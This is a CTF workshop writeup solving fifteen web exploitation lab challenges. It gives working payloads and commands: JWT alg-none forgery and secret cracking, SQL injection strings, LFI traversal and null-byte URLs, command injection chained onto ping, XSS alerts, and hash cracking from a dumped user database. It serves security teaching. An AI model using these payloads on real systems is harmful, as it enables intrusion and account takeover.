


# 🕸️ Web Exploitation Workshop Writeup

> Event Name: [Flag Hunters: CTF Workshop](https://gdg.community.dev/events/details/google-gdg-on-campus-multimedia-university-selangor-malaysia-presents-flag-hunters-ctf-workshop/)
>
> Writeup by: [elitemi24](https://github.com/iffathanafiah) aka [Iffat Hanafiah](https://www.linkedin.com/in/iffathanafiah/)

Before starting, make sure to read the [Documentation](#-documentation) to install the necessary requirements.

### Challenges Index:
| No | Challenge Name |
| :---:| :--- |
| 1. | [HTML Source Page](#-html-source-page) |
| 2. | [Scripting in Java](#-scripting-in-java) |
| 3. | [Net Work⚒️](#-net-work️) |
| 4. | [I like Cookies🍪](#-i-like-cookies) |
| 5. | [JWT: none](#-jwt-none) |
| 6. | [JWT: Signing](#-jwt-signing) |
| 7. | [sequeli](#-sequeli) |
| 8. | [Basic LF1](#-basic-lf1) |
| 9. | [LFI Traversing](#-lfi-traversing) |
| 10. | [NULL byte LFI](#-null-byte-lfi) |
| 11. | [Command Inject💉](#-command-inject) |
| 12. | [Xtra Secure Scripting 1](#-xtra-secure-scripting-1) |
| 13. | [Xtra Secure Scripting 2](#-xtra-secure-scripting-2) |
| 14. | [Xtra Secure Scripting 3](#-xtra-secure-scripting-3) |
| 15. | [Bonus Challenge ⭐](#-bonus-challenge-) |


## 🎯 HTML Source Page

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

As the challenge said, just **view the page source** to get the flag.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{viewing_the_source_is_power}</b>
</details><br>


## 🎯 Scripting in Java

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

Just like before, but now **view the <code>app.js</code> source** page.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{javascript_files_can_hide_secrets}</b>
</details><br>


## 🎯 Net Work⚒️

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, try to **insert** any input. Then, open **DevTools** by right clicking the mouse and select Inspect.


Click on **Network** tab, then click **Reload page** if there is no request made.


Try to view the **response** of <code>submit.php</code>.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{network_panels_are_useful}</b>
</details><br>


## 🎯 I like Cookies🍪

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, try to open the **DevTools** as we did in previous challenge.


As the **hints** given, try to **change** the value of <code>uid</code> from <code>1</code> to  <code>2</code>. Then, **reload** the page.


Looks like we are able to get other user's profile. From the notes, it says that only **"normal user <code>uid</code> will starts from <code>1</code> and so on"**.

Try to change the current <code>uid</code> to <code>0</code>. Then also **reload** the page after changing the cookies.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{cookie_idor_account_hijack}</b>
</details><br>


## 🎯 JWT: none

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, try to **register** our account first. Make sure it is a new account.


Now, we will be **automatically login to the page** with the newly created account.


View the **cookies** of the page:


You can use the **[jwt.io](https://www.jwt.io/) page** to try **understand the structure of the JWT**.


So, our **goal here** is to try **changing** the <code>role</code> from <code>user</code> to <code>admin</code>.

>💡 For better understanding, you can try [read here](https://portswigger.net/web-security/jwt#accepting-tokens-with-no-signature).

As what have been mentioned from the page, we can try to **exploit the flawed JWT signature verification** by changing the **tokens to be with no signature**.

To do this, you can try asks ChatGPT to create the token for you but for me, I usually use the open source tool named as [JWT_Tool](https://github.com/ticarpi/jwt_tool).

To install the **JWT_Tool**, you can follow the [documentation below](#-installing-jwt_tool).

Now, to use the JWT_Tool for changing the contents of the JWT, use the command:
```
(venv) jwt_tool$ python3 jwt_tool.py <INSERT-JWT> -T
```


To interact with the tool, you can **enter the number based on what action that you want to do**. For this challenge, we need to try changing the tokens to be with no signature. So, we need to change the <code>alg</code> to become <code>none</code> from <code>HS256</code>.


Then, **continue by entering** <code>0</code>.


Now, we need to be <code>admin</code>. So, **change** the <code>role</code> from <code>user</code> to <code>admin</code>.


Now, to finish the process, enter <code>0</code> or continue.


Copy the tampered JWT and **replace the current JWT in the cookies**:


**Reload** the page to view the changes.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{jwt_alg_none_bypass}</b>
</details><br>


## 🎯 JWT: Signing

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, it is the continuation from the previous challenge. After we have success exploiting the <code>alg: none</code> method, the page says that **"Wonders what if we can somehow sign the token?"**. Seems to be the hints for this challenge.

To sign the JWT with <code>role: admin</code>, we must need to have the secret key to sign the JWT.

>💡 You can try [read here](https://portswigger.net/web-security/jwt#brute-forcing-secret-keys) for more information.

As what have been mentioned from the page, we can try to **brute-forcing the secret keys**. Make sure to have the [rockyou.txt](#-documentation) aka the dictionary file to be used in this challenge before we can continue the process.

You can use either <code>hashcat</code> or <code>jwt_tool</code> to brute-force the JWT secret keys.

Using <code>hashcat</code>:
```
$ hashcat -a 0 -m 16500 <INSERT-JWT> /usr/share/wordlists/rockyou.txt
```

**Options:**
- -a &lt;0-9&gt; = Attack Modes, 0: Straight mode
- -m 16500 = JWT Hash Mode 

**Output:**


Using <code>jwt_tool</code>:
```
(venv) jwt_tool$ python3 jwt_tool.py <INSERT-JWT> -C -d /usr/share/wordlists/rockyou.txt
```

**Options:**
- -C = Crack
- -d &lt;PATH/TO/DICTIONARY&gt; = Dictionary to be used

**Output:**


Now, we need to **tamper the original token** from <code>role: user</code> to <code>role: admin</code>, then **sign the token using the retrieved secret key**:
```
(venv) jwt_tool$ python3 jwt_tool.py <INSERT-JWT> -T -S hs256 -p "<INSERT-SECRET-KEY>"
```


No need to change the <code>alg</code>, just **continue**:


Now, change the <code>role: user</code> to <code>role: admin</code> and continue:


Then, just **copy the tampered and signed JWT and replace the JWT** in the cookies:


**Reload** the page to get the flag:


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{jwt_valid_signature_admin}</b>
</details><br>


## 🎯 sequeli

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, just **enter any input to the username and password**:


So, our goals here is to **inject the SQL query to always returns <code>TRUE</code>**. You can refer to the [PortSwigger](https://portswigger.net/web-security/sql-injection) page or [W3Schools](https://www.w3schools.com/sql/sql_injection.asp) to learn more about **SQLI Attacks**.

There's multiple way we can try to always make the query to return <code>TRUE</code>.

Payload 1:

<code>' OR '1'='1</code> both as username and password.

SQL Query:

```sql
SELECT username,password FROM users WHERE username='' OR '1'='1' AND password='' OR '1'='1'
```

Payload 2:

<code>' OR '1'='1' --</code> can be inject in the username, which make the rest of the query to be as comment.

SQL Query:

```sql
SELECT username,password FROM users WHERE username='' OR '1'='1' --' AND password='test'
```

Payload 3:

<code>admin</code> as username and <code>' OR '1'='1</code> as password.

SQL Query:

```sql
SELECT username,password FROM users WHERE username='admin' AND password='' OR '1'='1'
```

Output:


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{basic_sql_injection_success}</b>
</details><br>


## 🎯 Basic LF1

### 🔗 Challenge Description


### 💫 Challenge Overview



### ✨ Challenge Solution

From the page, we can see in URL, the challenge is including the normal <code>page1.php</code>. Try to change the <code>page1.php</code> to be <code>flag1.txt</code> as we are already in the same directory as the <code>flag1.txt</code> which are in <code>includes/</code> directory.

```html
<!-- Before -->
http://<CHALLENGE-IP>/challenge6_lfi/stage1.php?file=page1.php
    
<!-- After -->
http://<CHALLENGE-IP>/challenge6_lfi/stage1.php?file=flag1.txt
```


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG_1{basic_lfi_read_includes}</b>
</details><br>


## 🎯 LFI Traversing

### 🔗 Challenge Description



### 💫 Challenge Overview


### ✨ Challenge Solution

From the page, we can see in URL, the challenge is including the normal <code>page2.php</code> from <code>includes/</code> directory. Try to change the <code>page2.php</code> to be <code>flag2.txt</code> but currently we are not in the same directory as the <code>flag2.txt</code> which are in <code>secret/</code> directory. So, we need to traverse back one directory to retrieve the <code>flag2.txt</code> in <code>secret/</code> directory.

```html
<!-- Before -->
http://<CHALLENGE-IP>/challenge6_lfi/stage2.php?file=page2.php
    
<!-- After -->
http://<CHALLENGE-IP>/challenge6_lfi/stage2.php?file=../secret/flag2.txt
```


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG_2{lfi_with_directory_traversal}</b>
</details><br>


## 🎯 NULL byte LFI

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

From the page, we can see in URL, the challenge is including the normal <code>page3.php</code> from <code>includes/</code> directory but the <code>.php</code> is appended at the end of the URL input which is the <code>page3</code>. Try to change the <code>page3</code> to be <code>flag3.txt</code> but currently we are not in the same directory as the <code>flag3.txt</code> which are outside of the <code>includes/</code> directory. So, we need to traverse back one directory to retrieve the <code>flag3.txt</code>. However, the <code>.php</code> extension will be appended after the <code>flag3.txt</code>.


There's actually way to bypass this which is by using the [Null Byte Injection](https://www.thehacker.recipes/web/inputs/null-byte-injection). So, the plan here is to **add the Null Byte** or <code>%00</code> **after the file name that we want to access**.

```html
<!-- Before -->
http://<CHALLENGE-IP>/challenge6_lfi/stage3.php?file=page3.php
    
<!-- After -->
http://<CHALLENGE-IP>/challenge6_lfi/stage3.php?file=../flag3.txt%00
```


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG_3{null_byte_bypass_lfi}</b>
</details><br>


## 🎯 Command Inject💉

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

Actually this challenge is simple. Try to put IP <code>127.0.0.1</code> to ping.


As we can see here, the IP that we have put is directly place in the command:
```
ping -c 1 <IP>
```

Try to inject linux commands after the IP:
```
ping -c 1 127.0.0.1; whoami
```


So, now read the content of the <code>flag.txt</code> by running the command:
```
ping -c 1 127.0.0.1; cat flag.txt
```


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{command_injection_achieved}</b>
</details><br>


## 🎯 Xtra Secure Scripting 1

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

Try to enter any input.


As we can see, **our input are placed directly inside the JavaScript line**:
```js
var searchTerm = '<INPUT>';
```

So, the plan here is to try **popup an alert using JavaScript alert()**. But we must need to **escape the <code>var searchTerm</code>**:
```js
var searchTerm = 'test';alert("XSS")//'
```


Flag will show after we successfully popup an alert.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{variant1_script_injection}</b>
</details><br>


## 🎯 Xtra Secure Scripting 2

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, we can try to start testing our input by appending the <code>?q=</code> parameter after the Challenge URL:
```html
http://<CHALLENGE-IP>/challenge8_xss/variant2_html.php?q=test
```


As we can see from how the input is rendered, our input will be placed directly inside the <code>&lt;div id="output"&gt;Result: test&lt;/div&gt;</code>

So, the plan here is to **include the script tags** inside our input:
```html
?q=<script>alert("XSS")</script>
```


Flag will show after we successfully popup an alert.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{variant2_html_injection}</b>
</details><br>


## 🎯 Xtra Secure Scripting 3

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, we need to find where else can we inject a javascript code that can be rendered. Open DevTools (mouse right-click, then Inspect) > Console. In the console, try to popup the alert:


Flag will show after we successfully popup an alert.


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{variant3_console_dom_xss}</b>
</details><br>


## 🎯 Bonus Challenge ⭐

### 🔗 Challenge Description


### 💫 Challenge Overview


### ✨ Challenge Solution

For this challenge, it involves in multiple steps before we are able to get the flag. At first, we come up with the login panel. However, we are not able to login to the page. SQLI also won't work here.

There's a file that can tell the search engine to not index the page which is the <code>robots.txt</code>. Try to view the content of it:


Looks like something interesting here. From the <code>robots.txt</code>, the <code>/backup/</code> directory is excluded from the search engine indexing the page.


However, we do not know what file are in the <code>/backup/</code> directory. That's where **Google** comes in (a little bit of **OSINT**).


From the **Google AI Overview** output, let's try to search for the file <code>php.ini.bak</code>.


Looks like the <code>php.ini.bak</code> file are available in the <code>/backup/</code> directory. Try to **download it and view the content** of it:


There's a **credential that we may use to login** to the page. Let's try to **use it and login** to the page:


We're finally able to login to the page using the credentials that we have found earlier:


Try to view what does the page offers (function of the page).

In **User Directory**:


Looks like nothing interesting here. Try to view the other page.

In **System Configuration**:


Looks interesting here, try to **download the database backup**. To interact with the database, in Terminal, you can use the command:
```
$ ls
sqlite3.db

$ sqlite3 sqlite3.db

sqlite>
```

To view the available tables in the database:
```
sqlite> .tables
system_logs  tickets      users
```

From here, the **<code>users</code> table seems to be interesting**.

To view the structure of the table:
```
sqlite> PRAGMA table_info(users);
0|user_id|INTEGER|0||1
1|username|TEXT|1||0
2|password_hash|TEXT|1||0
3|email|TEXT|1||0
4|role|TEXT|1||0
5|department|TEXT|0||0
6|status|TEXT|0|"active"|0
7|created_at|DATETIME|0|CURRENT_TIMESTAMP|0
8|last_login|DATETIME|0||0
```

Now, lets try to **retrieve the <code>username</code> and <code>password_hash</code> from the <code>users</code> table**:
```
sqlite> select username, password_hash from users;
admin|<ADMIN-PASSWORD-HASH>
<CURRENT-USER>|<CURRENT-USER-HASH>
alice.johnson|7c6a180b36896a0a8c02787eeafb0e4c
bob.smith|d8578edf8458ce06fbc5bb76a58c5ca4
carol.williams|4ca7c5c27c2314eecc71f67501abb724
david.brown|e10adc3949ba59abbe56e057f20f883e
emma.davis|fa83a80d26f217c505b2e3435b6cbb3a
frank.miller|482c811da5d5b4bc6d497ffa98491e38
```

To exit interacting with the database:
```
sqlite> .exit

$
```

Next, with the admin's <code>password_hash</code>, we can try to crack it to get the admin's password. For this, I use the [CrackStation](https://crackstation.net/) site to crack it:


The cracked admin's <code>password_hash</code> will be available in the **Result**.

Now, try to **login to the page** again but **with the admin's credentials**:


After **successfully login to the page as admin**, we are able to get the flag:


<details>
<summary><b>🏳️Flag</b></summary>
<b>FLAG{sqlite_backup_admin_cracked}</b>
</details><br>

### 🎗️ Bonus

After you have finished completing this challenge, you **can try downloading this challenge source file** in the System Configuration page to test running it locally and practise:


## 🖊️ Final Words

Thank you for trying my challenge and reading this writeup. I hope for whoever reads this can improve ourselves and keep getting better day by day. There's also some sites that you guys can try to keep on learning more:

- PortSwigger: Web Security Academy - https://portswigger.net/web-security/dashboard

- XSS Challenge by [y0n3uchy](https://x.com/y0n3uchy) - https://xss.challenge.training.hacq.me/

- SiberangeX - https://siberangex.com/

- SKR CTF - https://skrctf.me/

- picoCTF - https://play.picoctf.org/practice

- EQCTF - https://eqctf.com/

- TryHackMe OWASP TOP 10 Room - https://tryhackme.com/room/owasptop10

- HackTheBox Academy - https://academy.hackthebox.com/dashboard


## 📁 Documentation

### Make sure to have the following pre-requisites:

1. **Python3**
```
$ sudo apt install python3                                   (for ubuntu, debian based)
```

2. **Python3-venv**
```
$ sudo apt install python3-venv                              (for ubuntu, debian based)
```

3. **Python3-pip**
```
$ sudo apt install python3-pip                               (for ubuntu, debian based)
```

4. **Rockyou.txt**
> Usually, in Kali Linux, the <code>rockyou.txt.gz</code> file are already been pre-installed. But we still need to unzip the file before we can use it:
```
$ ls /usr/share/wordlists/rockyou.txt.gz
/usr/share/wordlists/rockyou.txt.gz

$ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

After finish installing the pre-requisites, you can start to installing the next tools below:

<hr><br>

### 📌 Installing JWT_Tool

1. Open terminal (it is better to use Linux but the best will be Kali) and **git clone the JWT_Tool repository**:
```
$ git clone https://github.com/ticarpi/jwt_tool.git
```

2. Then after finish cloning the repository, **change our current working directory to be in the jwt_tool/ directory**:
```
$ ls
jwt_tool

$ cd jwt_tool

jwt_tool$
```

3. Then, we need to **create a virtual environment** first before installing the requirements:
```
jwt_tool$ python3 -m venv venv

jwt_tool$ source venv/bin/activate

(venv) jwt_tool$ 
```

4. Then, **install the requirements**:
```
(venv) jwt_tool$ pip3 install -r requirements.txt 
```

5. Now, you can already use the **JWT_Tool** by typing the command:
```
(venv) jwt_tool$ python3 jwt_tool.py <INSERT-JWT>
```


## 📚 References:

Online JSON Web Token (JWT) Debugger: https://www.jwt.io/

Learn more about JSON Web Token (JWT) from PortSwigger: 
https://portswigger.net/web-security/jwt

JWT_Tool GitHub Page: https://github.com/ticarpi/jwt_tool

Learn more about SQL Injection (SQLI) from PortSwigger: 
https://portswigger.net/web-security/sql-injection

Learn more about SQL Injection (SQLI) from W3Schools: 
https://www.w3schools.com/sql/sql_injection.asp

Bypassing File access restriction by extension using Null Byte: https://www.thehacker.recipes/web/inputs/null-byte-injection

Cracking Password Hash Online: https://crackstation.net/

PortSwigger - Web Security Academy: https://portswigger.net/web-security/dashboard

XSS Challenge by [y0n3uchy](https://x.com/y0n3uchy): https://xss.challenge.training.hacq.me/

SiberangeX: https://siberangex.com/

SKR CTF: https://skrctf.me/

picoCTF: https://play.picoctf.org/practice

EQCTF: https://eqctf.com/

TryHackMe OWASP TOP 10 Room: https://tryhackme.com/room/owasptop10

HackTheBox Academy: https://academy.hackthebox.com/dashboard